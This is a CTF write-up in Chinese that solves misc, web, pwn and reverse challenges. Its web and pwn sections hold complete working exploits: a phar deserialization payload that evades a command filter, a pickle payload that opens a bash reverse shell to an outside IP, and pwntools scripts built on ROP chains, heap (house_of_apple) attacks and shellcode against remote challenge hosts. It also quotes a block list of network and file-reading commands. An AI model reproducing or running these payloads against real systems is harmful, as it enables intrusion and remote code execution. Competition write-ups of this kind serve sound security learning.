

# <font style="color:#74B602;">Misc</font>
## <font style="color:#1DC0C9;">ezflag</font>
wireshark 打开，其中一个流量有个 zip，追踪一下，用 hex 查看，然后丢入 cyberchef 解出来一个 zip，解压后是一个 png 文件，改后缀以后查看图片就是 flag。


## <font style="color:#1DC0C9;">Find way to read video</font>
Gitcode 上可以找到 marco1763。

[https://gitcode.com/marco1763/email_template/overview](https://gitcode.com/marco1763/email_template/overview)


是个很长的文本，是垃圾邮箱隐写。

[https://spammimic.com/decode.cgi](https://spammimic.com/decode.cgi)

解出来

```plain
BV1P62EYHEZd eyJ2IjozLCJuIjoiZmw0ZyIsInMiOiIiLCJoIjoiZGExMTcyNSIsIm0iOjkwLCJrIjo4MSwibWciOjIwMCwia2ciOjEzMCwibCI6NDMsInNsIjoxLCJmaGwiOlsiMjUyZjEwYyIsImFjYWM4NmMiLCJjYTk3ODExIiwiY2QwYWE5OCIsIjAyMWZiNTkiLCIyYzYyNDIzIiwiY2E5NzgxMSIsIjRlMDc0MDgiLCJlN2Y2YzAxIiwiMmM2MjQyMyIsIjI1MmYxMGMiLCI1ZmVjZWI2IiwiZWYyZDEyNyIsIjM5NzNlMDIiLCJjYTk3ODExIiwiNGIyMjc3NyIsImU3ZjZjMDEiLCI3OTAyNjk5IiwiMzk3M2UwMiIsIjRiMjI3NzciLCI3OTAyNjk5IiwiZWYyZDEyNyIsIjI1MmYxMGMiLCIzOTczZTAyIiwiY2E5NzgxMSIsImVmMmQxMjciLCJkNDczNWUzIiwiMjUyZjEwYyIsIjM5NzNlMDIiLCI2Yjg2YjI3IiwiM2UyM2U4MSIsImQ0NzM1ZTMiLCJlN2Y2YzAxIiwiMmU3ZDJjMCIsIjJlN2QyYzAiLCI0YjIyNzc3IiwiNWZlY2ViNiIsIjI1MmYxMGMiLCIyZTdkMmMwIiwiNGIyMjc3NyIsIjNmNzliYjciLCJkMTBiMzZhIiwiMDFiYTQ3MSIsIjZlMzQwYjkiLCI2ZTM0MGI5IiwiNmUzNDBiOSIsIjZlMzQwYjkiLCI2ZTM0MGI5IiwiNmUzNDBiOSIsIjZlMzQwYjkiLCI2ZTM0MGI5IiwiNmUzNDBiOSIsIjZlMzQwYjkiLCI2ZTM0MGI5IiwiNmUzNDBiOSIsIjZlMzQwYjkiLCI2ZTM0MGI5IiwiNmUzNDBiOSIsIjZlMzQwYjkiLCI2ZTM0MGI5IiwiNmUzNDBiOSIsIjZlMzQwYjkiLCI2ZTM0MGI5IiwiNmUzNDBiOSIsIjZlMzQwYjkiLCI2ZTM0MGI5IiwiNmUzNDBiOSIsIjZlMzQwYjkiLCI2ZTM0MGI5IiwiNmUzNDBiOSIsIjZlMzQwYjkiLCI2ZTM0MGI5IiwiNmUzNDBiOSIsIjZlMzQwYjkiLCI2ZTM0MGI5IiwiNmUzNDBiOSIsIjZlMzQwYjkiLCI2ZTM0MGI5IiwiNmUzNDBiOSIsIjZlMzQwYjkiLCI2ZTM0MGI5IiwiMDg0ZmVkMCIsIjE4ZjUzODQiLCIxODlmNDAwIiwiZWY2Y2JkMiIsIjI3OTUyMTciLCJhOTI1M2RjIiwiNGM5NDQ4NSIsIjI1MmYxMGMiLCI4NWY5N2UwIl19


```

下面的编码base64解出来

```json
{"v":3,"n":"fl4g","s":"","h":"da11725","m":90,"k":81,"mg":200,"kg":130,"l":43,"sl":1,"fhl":["252f10c","acac86c","ca97811","cd0aa98","021fb59","2c62423","ca97811","4e07408","e7f6c01","2c62423","252f10c","5feceb6","ef2d127","3973e02","ca97811","4b22777","e7f6c01","7902699","3973e02","4b22777","7902699","ef2d127","252f10c","3973e02","ca97811","ef2d127","d4735e3","252f10c","3973e02","6b86b27","3e23e81","d4735e3","e7f6c01","2e7d2c0","2e7d2c0","4b22777","5feceb6","252f10c","2e7d2c0","4b22777","3f79bb7","d10b36a","01ba471","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","6e340b9","084fed0","18f5384","189f400","ef6cbd2","2795217","a9253dc","4c94485","252f10c","85f97e0"]}


```

第一行是个BV号，去b站搜索发现有flag线索


---

这个 up 还有一个视频，标题是 ZmxhZw==，搜索标题，还能再找到另一个 up 发的视频。

找了很久有关数据转视频的东西，发现有个叫 Lumika 的东西和这个很像，在本地跑了一下，出了。另外那两个视频解出来的交上去是错的。

[https://github.com/ERR0RPR0MPT/Lumika](https://github.com/ERR0RPR0MPT/Lumika)


## <font style="color:#74B602;">PvZ</font>
直接跑个字典爆，压缩包密码是 217eedd1ba8c592db97d0dbe54c7adfc。(738)

解压后发现两张类似二维码的东西，其中一张被旋转了。


第一张图片可以拼到大二维码的左下角。


3D 画图修一下，然后用微信可以扫出来。

```plain
D'`_q^K![YG{VDTveRc10qpnJ+*)G!~f1{d@-}v<)9xqYonsrqj0hPlkdcb(`Hd]#a`_A@VzZY;Qu8NMqKPONGkK-,BGF?cCBA@">76Z:321U54-21*Non,+*#G'&%$d"y?w_uzsr8vunVrk1ongOe+ihgfeG]#[ZY^W\UZSwWVUNrRQ3IHGLEiCBAFE>=aA:9>765:981Uvu-2+O/.nm+$Hi'~}|B"!~}|u]s9qYonsrqj0hmlkjc)gIedcb[!YX]\UZSwWVUN6LpP2HMFEDhHG@dDCBA:^!~<;:921U/u3,+*Non&%*)('&}C{cy?}|{zs[q7unVl2ponmleMib(fHG]b[Z~k
```

文件名有提示性。


[Malbolge - interpreter online (doleczek.pl)](https://malbolge.doleczek.pl/)

用这个在线网站跑一下就出了。


# <font style="color:#74B602;">Crypto</font>
## <font style="color:#1DC0C9;">xor</font>


# <font style="color:#74B602;">Web</font>
## <font style="color:#1DC0C9;">Capoo</font>
<font style="color:rgb(51, 51, 51);">一开始看抓包是</font>

`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">capoo=capoo_img/capoo+(47).gif</font>`

<font style="color:rgb(51, 51, 51);">随便改一下就可以拿到源码了</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">capoo=showpic.php</font>`

```php
<?php
class CapooObj {
    public function __wakeup()
    {
	$action = $this->action;
	$action = str_replace("\"", "", $action);
	$action = str_replace("\'", "", $action);
	$banlist = "/(flag|php|base|cat|more|less|head|tac|nl|od|vi|sort|uniq|file|echo|xxd|print|curl|nc|dd|zip|tar|lzma|mv|www|\~|\`|\r|\n|\t|\	|\^|ls|\.|tail|watch|wget|\||\;|\:|\(|\)|\{|\}|\*|\?|\[|\]|\@|\\|\=|\<)/i";
	if(preg_match($banlist, $action)){
		die("Not Allowed!");
	}
        system($this->action);
    }
}
header("Content-type:text/html;charset=utf-8");
if ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['capoo'])) {
    $file = $_POST['capoo'];
    
    if (file_exists($file)) {
        $data = file_get_contents($file);
        $base64 = base64_encode($data);
    } else if (substr($file, 0, strlen("http://")) === "http://") {
        $data = file_get_contents($_POST['capoo'] . "/capoo.gif");
        if (strpos($data, "PILER") !== false) {
	        die("Capoo piler not allowed!");
        }
        file_put_contents("capoo_img/capoo.gif", $data);
        die("Download Capoo OK");
    } else {
        die('Capoo does not exist.');
    }
} else {
    die('No capoo provided.');
}
?>
<!DOCTYPE html>
<html>
  <head>
    <title>Display Capoo</title>
  </head>
  <body>
    ' />
  </body>
</html>


```

<font style="color:rgb(51, 51, 51);">发现存在任意文件读取以及任意文件下载，预期思路，先通过任意文件下载得到一个phar文件，然后通过file_get_contents触发phar反序列化。</font>


<font style="color:rgb(51, 51, 51);">下面那个箭头下载文件，然后上面那里触发phar反序列化。</font>

<font style="color:rgb(51, 51, 51);">rce利用'绕过，题目写的正则有问题。</font>

```php
<?php
class CapooObj {
    public function __wakeup()
    {
        $action = $this->action;
        $action = str_replace("\"", "", $action);
        $action = str_replace("\'", "", $action);
        $banlist = "/(flag|php|base|cat|more|less|head|tac|nl|od|vi|sort|uniq|file|echo|xxd|print|curl|nc|dd|zip|tar|lzma|mv|www|\~|\`|\r|\n|\t|\   |\^|ls|\.|tail|watch|wget|\||\;|\:|\(|\)|\{|\}|\*|\?|\[|\]|\@|\\|\=|\<)/i";
        if(preg_match($banlist, $action)){
            die("Not Allowed!");
        }
        system($this->action);
    }
}

$payload=new CapooObj();
$payload->action="c''at /fl''ag-33ac806f";

echo serialize($payload);
@unlink('phar.phar');
$phar = new Phar('phar.phar');
$phar->startBuffering();
$phar->setStub('GIF89a'.'<?php __HALT_COMPILER();?>');

$phar->setMetadata($payload);

$phar->addFromString('m.php',"<?php system('ls /');?>"); // phar:[phar.phar][system_get_you_filename]/1.txt
$phar->stopBuffering();


```

<font style="color:rgb(51, 51, 51);">然后打包一下绕过对PILER的检测</font>

```python
import gzip
with open('phar.phar', 'rb') as file:
  f = file.read()

newf = gzip.compress(f) #对Phar文件进行gzip压缩
with open('capoo.gif', 'wb') as file:#更改文件后缀
  file.write(newf)


```

```http
#下载
capoo=http://IP
#phar反序列化
capoo=phar://capoo_img/capoo.gif/phar.phar


```


## <font style="color:#1DC0C9;">ez_picker</font>
思路，原型链污染，jwt伪造，pickle


注册存在原型链污染。将key污染成123456


再污染pickle的安全模块和name,这样可以打一个无过滤的pickle。

污染 safe_modules 和 safe_name，如下。


 然后直接本地跑一个 pkl 上传过去，可能需要多换几种方式。

```python
import pickle
import os
class Shell(object):
    def __reduce__(self):
        cmd = "bash -c \"bash -i >& /dev/tcp/x.x.x.x/7777 0>&1\""
        s = "__import__('os').popen('{}').read()".format(cmd)
        return (eval, (s,))

with open('data.pkl','wb') as f:
    pickle.dump(Shell(),f)

# with open('data.pkl', 'rb') as f:
#     data = pickle.load(f)


```

打过去 sleep 3 了一下，发现是无回显，直接用 bash 弹个 shell，结束。


# <font style="color:#74B602;">Pwn</font>
## <font style="color:#1DC0C9;">signin</font>


在add函数中的o_0中存在栈溢出，直接orw就好了

```python
from pwn import *
from struct import *
from ctypes import *
from LibcSearcher import *
from functools import reduce
from z3 import *
import gmpy2
#import ctf_pb2

c = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
# srop :    frame = SigreturnFrame()
# fmt :        fmtstr_payload(offset=7,writes={0x4031E0:0x0401445,0x403410:0x401445},numbwritten=((14*2)+1),write_size='short')

s    =    lambda a              :pw.send(a)
sl   =    lambda a              :pw.sendline(a)
sa   =    lambda a,b            :pw.sendafter(a,b)
sla  =    lambda a,b            :pw.sendlineafter(a,b)
r    =    lambda a=6666         :pw.recv(a)
rl   =    lambda                :pw.recvline()
ru   =    lambda a,b=True       :pw.recvuntil(a,b)
g64  =    lambda                :u64(pw.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
g32  =    lambda                :u32(pw.recvuntil(b'\xf7').ljust(4,b'\x00'))
gl   =    lambda a              :u64(pw.recvuntil(a,drop=True).ljust(8,b'\x00'))
gc   =    lambda a              :u64(pw.recv(7).rjust(8,b'\x00'))
pwpw =    lambda                :pw.interactive()
lss  =    lambda s :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
cal  =    lambda a,b            :((a - b) + 0x10000) % 0x10000

def sb(libc_base):
    return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))

def orw(libc_base):
    return libc_base + libc.sym['open'], libc_base + libc.sym['read'], libc_base + libc.sym['write']

def search():
    libc = LibcSearcher("puts", puts)
    libc_base = puts - libc.dump("puts")
    system = libc.dump("system") + libc_base
    binsh = libc.dump("str_bin_sh") + libc_base
    return system,binsh

def dbg(a=''):
    if a !='':
        gdb.attach(pw,a) 
        pause()
    else:
        gdb.attach(pw)  
        pause()

def debug(a):
    gdb.attach(pw,a)

    
context(os = 'linux', arch = 'amd64', log_level = 'debug')
# context.arch='i386'
# context.terminal=["tmux" ,"split" ,"-h"]
# context.arch = 'amd64'
file = './pwn2'
elf = ELF(file)
# libc = ELF('/home/pwn_tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')    
libc = ELF('./libc.so.6')
choice = 1
if choice == 0:
    pw = process(file)
if choice == 1:
    pw = remote("pwn-f73dc6ddbc.challenge.xctf.org.cn", 9999, ssl=True)
if choice == 2:
    gdbscript = '''
        set debug-file-directory /home/pwn_tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/.debug/lib/
        b *$rebase(0x08F2)
        continue
    '''
    pw = gdb.debug(file, gdbscript=gdbscript)
#----------------------------------------------------------------------

c.srand(0x12345678)

rdi = 0x0000000000401893 #: pop rdi ; ret
# dbg()
pay = b'a'*(0x16-8) + p32(0x12345678)
s(pay)

for i in range(100):
    a = c.rand()
    sa(b':',p64(a%100+1))

sleep(1)
sl(p32(1))
sl(p32(1))

# dbg()
pay = b'a'*0x100 + p64(0) + p64(rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x04013C0)
sla(b'Note:',pay)
rl()
libc_base = u64(ru(b'\n').ljust(8,b'\x00')) - libc.sym['puts']
lss('libc_base')

pay = b'a'*0x108 + p64(rdi) + p64(libc_base+libc.sym['environ']) + p64(elf.plt['puts']) + p64(0x04013C0)
sl(pay)
stack = u64(ru(b'\n').ljust(8,b'\x00'))
lss('stack')

rsi = libc_base + 0x000000000002601f #: pop rsi ; ret
rdx = libc_base + 0x0000000000142c92 #: pop rdx ; ret

pay = b'a'*0x100 + p64(elf.bss()+0x800) + p64(rsi) + p64(elf.bss()+0x800) + p64(0x04013DE)
sl(pay)

o,r,w = orw(libc_base)
# dbg()
pay = p64(rdi) + p64(0x404988) + p64(rsi) + p64(0) + p64(o)
pay += p64(rdi) + p64(3) + p64(rsi) + p64(stack+0x800) + p64(rdx) + p64(0x30) + p64(r)
pay += p64(rdi) + p64(1) + p64(rsi) + p64(stack+0x800) + p64(rdx) + p64(0x30) + p64(w) + b'/flag\x00'
sl(p64(rdi+1)*10+pay)

pwpw()
```


## <font style="color:#1DC0C9;">signin_revenge</font>


<font style="color:rgb(51, 51, 51);">直接就是栈溢出了，orw读flag就好了</font>

<font style="color:rgb(51, 51, 51);">exp如下：</font>

```python
from pwn import *
from struct import *
from ctypes import *
from LibcSearcher import *
from functools import reduce
from z3 import *
import gmpy2
#import ctf_pb2

c = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
# srop :    frame = SigreturnFrame()
# fmt :        fmtstr_payload(offset=7,writes={0x4031E0:0x0401445,0x403410:0x401445},numbwritten=((14*2)+1),write_size='short')

s    =    lambda a              :pw.send(a)
sl   =    lambda a              :pw.sendline(a)
sa   =    lambda a,b            :pw.sendafter(a,b)
sla  =    lambda a,b            :pw.sendlineafter(a,b)
r    =    lambda a=6666         :pw.recv(a)
rl   =    lambda                :pw.recvline()
ru   =    lambda a,b=True       :pw.recvuntil(a,b)
g64  =    lambda                :u64(pw.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
g32  =    lambda                :u32(pw.recvuntil(b'\xf7').ljust(4,b'\x00'))
gl   =    lambda a              :u64(pw.recvuntil(a,drop=True).ljust(8,b'\x00'))
gc   =    lambda a              :u64(pw.recv(7).rjust(8,b'\x00'))
pwpw =    lambda                :pw.interactive()
lss  =    lambda s :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
cal  =    lambda a,b            :((a - b) + 0x10000) % 0x10000

def sb(libc_base):
    return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))

def orw(libc_base):
    return libc_base + libc.sym['open'], libc_base + libc.sym['read'], libc_base + libc.sym['write']

def search():
    libc = LibcSearcher("puts", puts)
    libc_base = puts - libc.dump("puts")
    system = libc.dump("system") + libc_base
    binsh = libc.dump("str_bin_sh") + libc_base
    return system,binsh

def dbg(a=''):
    if a !='':
        gdb.attach(pw,a) 
        pause()
    else:
        gdb.attach(pw)  
        pause()

def debug(a):
    gdb.attach(pw,a)

    
context(os = 'linux', arch = 'amd64', log_level = 'debug')
# context.arch='i386'
# context.terminal=["tmux" ,"split" ,"-h"]
# context.arch = 'amd64'
file = './pwn2'
elf = ELF(file)
# libc = ELF('/home/pwn_tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')    
libc = ELF('./libc.so.6')
choice = 1
if choice == 0:
    pw = process(file)
if choice == 1:
    pw = remote("pwn-f73dc6ddbc.challenge.xctf.org.cn", 9999, ssl=True)
if choice == 2:
    gdbscript = '''
        set debug-file-directory /home/pwn_tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/.debug/lib/
        b *$rebase(0x08F2)
        continue
    '''
    pw = gdb.debug(file, gdbscript=gdbscript)
#----------------------------------------------------------------------
rdi = 0x0000000000401393 #: pop rdi ; ret

pay = b'a'*0x108 + p64(rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.sym['vuln'])
sla(b'!\n',pay)
libc_base = u64(ru(b'\n').ljust(8,b'\x00')) - libc.sym['puts']
lss('libc_base')

pay = b'a'*0x108 + p64(rdi) + p64(libc_base+libc.sym['environ']) + p64(elf.plt['puts']) + p64(elf.sym['vuln'])
sl(pay)
stack = u64(ru(b'\n').ljust(8,b'\x00'))
lss('stack')

# dbg()
rsi = libc_base + 0x000000000002601f #: pop rsi ; ret
rdx = libc_base + 0x0000000000142c92 #: pop rdx ; ret

pay = b'a'*0x108 + p64(rsi) + p64(stack-0xd0) + p64(0x04012DE)
sl(pay)

o,r,w = orw(libc_base)

# dbg()
pay = p64(rdi) + p64(stack+0x18) + p64(rsi) + p64(0) + p64(o)
pay += p64(rdi) + p64(3) + p64(rsi) + p64(stack+0x800) + p64(rdx) + p64(0x30) + p64(r)
pay += p64(rdi) + p64(1) + p64(rsi) + p64(stack+0x800) + p64(rdx) + p64(0x30) + p64(w) + b'/flag\x00'
sl(p64(rdi+1)*10+pay)

pwpw()

```


## <font style="color:#1DC0C9;">guset book</font>
经典堆题


带有idx没检测直接溢出，修改bss上残留地址为stdout然后打house_of_apple


```python
import time 
from pwn import * 
from ctypes import * 
from LibcSearcher import * 
import json 
RED = '\033[91m' 
GREEN = '\033[92m' 
YELLOW = '\033[93m' 
BLUE = '\033[94m'  
RESET = '\033[0m'  
u64_Nofix=lambda p:u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\x00')) 
u64_fix=lambda p:u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) 
u64_8bit=lambda p:u64(p.recv(8)) 
dir  =    lambda s :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s))) 
def int_fix(p,count=12): 
    p.recvuntil(b'0x') 
    return int(p.recv(count),16) 
# p = process(["qemu-arm","-g", "2233","../chall"]) 
 
FILENAME='../pwn10' 
elf=ELF(FILENAME) 
libc=elf.libc 
debug =1 
context.arch='amd64' 
 
if debug == 0: 
    argv=['aa'] 
    p=process([FILENAME]) 
if debug == 1: 
    p=remote("pwn-f34082240a.challenge.xctf.org.cn", 9999, ssl=True) 
 
if debug ==2: 
    gdbscript = ''' 
        b* $rebase(0x18A6) 
        b* $rebase(0x17E9) 
        c 
    ''' 
    argv=['a'*21] 
    p = gdb.debug([FILENAME], gdbscript=gdbscript) 
 
def command(option): 
    p.recvuntil(b'>') 
    p.sendline(bytes(str(option),'utf-8')) 
 
def create(idx,Size): 
    command(1) 
    p.recvuntil(b'index') 
    p.sendline(bytes(str(idx),'utf-8')) 
    p.recvuntil(b'size') 
    p.sendline(bytes(str(Size),'utf-8')) 
def free(id): 
    command(3) 
    p.recvuntil(b'index') 
    p.sendline(bytes(str(id),'utf-8')) 
def edit(id,Content): 
    command(2) 
    p.recvuntil(b'index') 
    p.sendline(bytes(str(id),'utf-8')) 
    p.recvuntil(b'content') 
    p.send(Content) 
def show(id): 
    command(4) 
    p.recvuntil(b'index') 
    p.sendline(bytes(str(id),'utf-8')) 
 
create(0,0x500) 
create(1,0x500) 
create(2,0x500) 
create(3,0x500) 
free(0) 
show(0) 
libc_addr=u64_fix(p) 
libcbase=libc_addr-0x21ace0 
dir("libcbase") 
free(2) 
show(2) 
p.recvline() 
heap_addr=u64_Nofix(p) 
dir("heap_addr") 
 
for i in range(4,15): 
    create(i,0x500) 
 
stdout=libcbase+0x21b780 
stdin=libcbase+0x21aaa0 
stderr=libcbase+0x21b6a0 
IO_wfile_jumps=libcbase+0x2170c0 
system=libcbase+libc.sym['system'] 
 
 
#fake_IO 
fake_add=heap_addr 
fake_IO=b'  sh;'.ljust(8,b'\x00') 
fake_IO=fake_IO.ljust(0x88,b'\x00') 
fake_IO+=p64(heap_addr) 
fake_IO=fake_IO.ljust(0xa0,b'\x00') 
fake_IO+=p64(fake_add) 
fake_IO=fake_IO.ljust(0xd8,b'\x00') 
fake_IO+=p64(IO_wfile_jumps-0x20) 
 
payload=b'\x00'*0x58 
payload+=p64(system) 
payload=payload.ljust(0xe0-0x10,b'\x00') 
payload+=p64(fake_add) 
edit(0,payload) 
 
payload=fake_IO 
edit(-8,payload) 
 
 
p.interactive()

```

## <font style="color:#1DC0C9;">ezcode</font>


<font style="color:rgb(51, 51, 51);">在22个字节以内完成mprotect和read的系统调用即可</font>

<font style="color:rgb(51, 51, 51);">exp如下：</font>

```python
from pwn import *
from struct import *
from ctypes import *
from LibcSearcher import *
from functools import reduce
from z3 import *
import gmpy2
#import ctf_pb2

c = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
# srop :    frame = SigreturnFrame()
# fmt :        fmtstr_payload(offset=7,writes={0x4031E0:0x0401445,0x403410:0x401445},numbwritten=((14*2)+1),write_size='short')

s    =    lambda a              :pw.send(a)
sl   =    lambda a              :pw.sendline(a)
sa   =    lambda a,b            :pw.sendafter(a,b)
sla  =    lambda a,b            :pw.sendlineafter(a,b)
r    =    lambda a=6666         :pw.recv(a)
rl   =    lambda                :pw.recvline()
ru   =    lambda a,b=True       :pw.recvuntil(a,b)
g64  =    lambda                :u64(pw.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
g32  =    lambda                :u32(pw.recvuntil(b'\xf7').ljust(4,b'\x00'))
gl   =    lambda a              :u64(pw.recvuntil(a,drop=True).ljust(8,b'\x00'))
gc   =    lambda a              :u64(pw.recv(7).rjust(8,b'\x00'))
pwpw =    lambda                :pw.interactive()
lss  =    lambda s :log.success('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
cal  =    lambda a,b            :((a - b) + 0x10000) % 0x10000

def sb(libc_base):
    return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))

def orw(libc_base):
    return libc_base + libc.sym['open'], libc_base + libc.sym['read'], libc_base + libc.sym['write']

def search():
    libc = LibcSearcher("puts", puts)
    libc_base = puts - libc.dump("puts")
    system = libc.dump("system") + libc_base
    binsh = libc.dump("str_bin_sh") + libc_base
    return system,binsh

def dbg(a=''):
    if a !='':
        gdb.attach(pw,a) 
        pause()
    else:
        gdb.attach(pw)  
        pause()

def debug(a):
    gdb.attach(pw,a)

    
# context(os = 'linux', arch = 'amd64', log_level = 'debug')
# context.arch='i386'
# context.terminal=["tmux" ,"split" ,"-h"]
context.arch = 'amd64'
file = './vuln'
elf = ELF(file)
# libc = ELF('/home/pwn_tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')    
# libc = ELF('./libc.so.6')
choice = 1
if choice == 0:
    pw = process(file)
if choice == 1:
    pw = remote("pwn-7b2e3c79d9.challenge.xctf.org.cn", 9999, ssl=True)
if choice == 2:
    gdbscript = '''
        set debug-file-directory /home/pwn_tools/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/.debug/lib/
        b *$rebase(0x08F2)
        continue
    '''
    pw = gdb.debug(file, gdbscript=gdbscript)
#----------------------------------------------------------------------
# dbg('b *$rebase(0x189f)')
# dbg('b *$rebase(0x16d6)')

# pay =  asm(shellcraft.open('/flag'))
pay = asm('''
mov edi, r15d   
mov ax, 10      
mov dx, 0x7       
syscall      
xchg   edx, eax   
xor eax, eax    
xchg edi, esi   
xor edi, edi    
syscall         
''')
# 
print(len(pay))

sl(f'{{"shellcode": "{pay.hex()}"}}')

pay1 = asm('''
mov rsp,r15
add rsp,0x800
''')

shell = asm(shellcraft.cat('/flag'))


sl(b'\x90'*0x20 + pay1 + shell)
pwpw()

```


## <font style="color:#1DC0C9;">QWEN</font>
Pwn1下棋结束后会有个字符串读入，存在溢出。




可以淹没v11存放的函数指针，实现rip劫持，由于开启pie我们只能修改短字节跳转。


存在backdoor，但过滤了‘g’、‘.’等字符。


读文件结束后会返回main函数，所以我们可以读取/proc/self/maps得到libc基地址。


One_gadget可以看到有以下ogg。


我们控制buf其他0x28个字节为’\x00’，就可以满足0x10a2fc的ogg。

得到shell后发现，权限不足，同时有个pwn2程序。

该程序实现了解压缩、md5计算等功能，同时提取功能存在溢出。


可以看到这里的逻辑是，根据第array[1]判断填充多少array[0]，这里没有进行size的检查，所以可以创建一个超过0x200的堆块，然后在后面的memcpy淹没栈空间。


由于dest数组后面还有些指针，所以我们需要提前泄露这些指针。


泄露方式就是通过开头copy的pwn.maps文件得到堆地址，然后就可以根据偏移计算出FILE指针。


然后就可以实现溢出了，由于开启了沙盒禁用了execve，我们进行orw或者chmod读取或修改flag文件。


这里因为payload受限，所以需要一些数据压缩的手段。


```python
from pwn import *
from ctypes import *
import random
i = random.randint(0,0x10)
lib = cdll.LoadLibrary('./libc.so.6')
rand = lib.rand
# p = gdb.debug('./pwn1','b *$rebase(0x000000000001022)')
p = remote("pwn-c90939858e.challenge.xctf.org.cn", 9999, ssl=True)
# p = process('./pwn1')
libc = ELF('./libc.so.6')
flag = 0
for i in range(0,14):
    for j in range(0,i):
        p.sendlineafter('）：',str(i)+' '+str(14-j))
        if i==6 and j==0:
            flag=1
            break
    if flag:
        break
p.sendafter('o say?',b'\x00'*8+p16(0x508+i*0x1000))
p.sendlineafter('Y/N]','N')
p.sendlineafter('）：','100 100')
key = rand()
p.sendlineafter(' key',str(key))
p.sendlineafter('n!\n','/proc/self/maps')
libc.address = int(p.recvuntil('-7')[-3-12:-2],16)
gadget = libc.address+0x10a2fc
print('libc:',hex(libc.address))
flag = 0
for i in range(0,14):
    for j in range(0,i):
        p.sendlineafter('）：',str(i)+' '+str(14-j))
        if i==6 and j==0:
            flag=1
            break
    if flag:
        break
p.sendafter('o say?',b'\x00'*8+p64(gadget)+b'\x00'*0x20)
p.sendlineafter('Y/N]','N')
p.sendlineafter('）：','100 100')
p.sendline('/home/ctf/pwn2 -x /home/ctf/0rb1t')
pause()
cnt = 0
def add_n_x_8(n,x):
    global cnt
    cnt += 1
    return p8(x)+p8(n)

def add_x_64(x):
    ret = b''
    for i in range(8):
        ret += add_n_x_8(1,x&0xff)
        x>>=8
    return ret

maps = open("./pwn.maps1","r").readlines()
libc.address = int(maps[5][:12],16)
heap = int(maps[4][:8],16)
rdi_ret = libc.address+0x000000000002164f
rsi_ret = libc.address+0x0000000000023a6a
rdx_ret = libc.address+0x0000000000001b96
rcx_ret = libc.address+0x000000000010c423
print('heap:',hex(heap))
print('libc:',hex(libc.address))
flag_addr = heap+0x5590
stream1 = heap+0x3c20
stream2 = heap+0x3e50
payload = add_n_x_8(0xf0,0)
payload += add_x_64(u64(b'/home/ct'))
payload += add_x_64(u64(b'f/flag\x00\x00'))
payload += add_n_x_8(8,0)
payload += add_x_64(stream1)
payload += add_n_x_8(0x18,0)
payload += add_x_64(stream2)
payload += add_n_x_8(8,0)
payload += add_x_64(rdi_ret)+add_x_64(flag_addr)+add_x_64(rsi_ret)+add_n_x_8(8,0)+add_x_64(rdx_ret)+add_n_x_8(8,0)+add_x_64(libc.symbols['open'])
payload += add_x_64(rdi_ret)+add_n_x_8(1,1)+add_n_x_8(7,0)+add_x_64(rsi_ret)+add_x_64(3)+add_x_64(rdx_ret)+add_n_x_8(8,0)+add_x_64(rcx_ret)+add_n_x_8(8,1)+add_x_64(libc.symbols['sendfile'])
payload = b'0rb1t '+str(1).encode('latin1')+b'\n'+p64(0x100)+payload
payload = base64.b64encode(payload)
print(len(payload))
p.sendline(payload)
p.interactive()
```


# <font style="color:#74B602;">Reverse</font>
## <font style="color:#1DC0C9;">Serv1ce</font>


有一个生成 key 的过程，最后和用户输入被传入 check 函数验证。


这是 check 函数的内容，v[] 是最终的密文，其实就是一个简单的异或，然后乘上 sum。


num 就是加密时乘的那个值，注意 num 传入 check 函数之前自增了两次，所以实际传入的 num 的值是 11。

还有一个细节，加密的时候乘 11 可能会溢出，也就是超出 255，写解密脚本的时候需要取模。

```python
num = 11
key = []
enc = [185,  50, 194, 212, 105, 213, 202, 251, 248, 251, 128, 124, 212, 229, 147, 213,  28, 139, 248, 223, 218, 161,  17, 248, 161, 147, 147, 194, 124, 139, 28, 102,   1,  61, 163, 103]
t = '1liIl11lIllIIl11llII'
l = len(t)
for i in range(64):
    key.append(((ord(t[i%l])-ord('w'))^23)&255)
print(key)
flag = ''
print('------')
for i in range(len(enc)):
    for t in range(100):
        temp = t*256+enc[i]
        if temp%num==0:
            #print(chr((temp//num)^key[i]))
            flag+=chr((temp//num)^key[i])
            break
print('flag{'+flag+'}')


```


# 
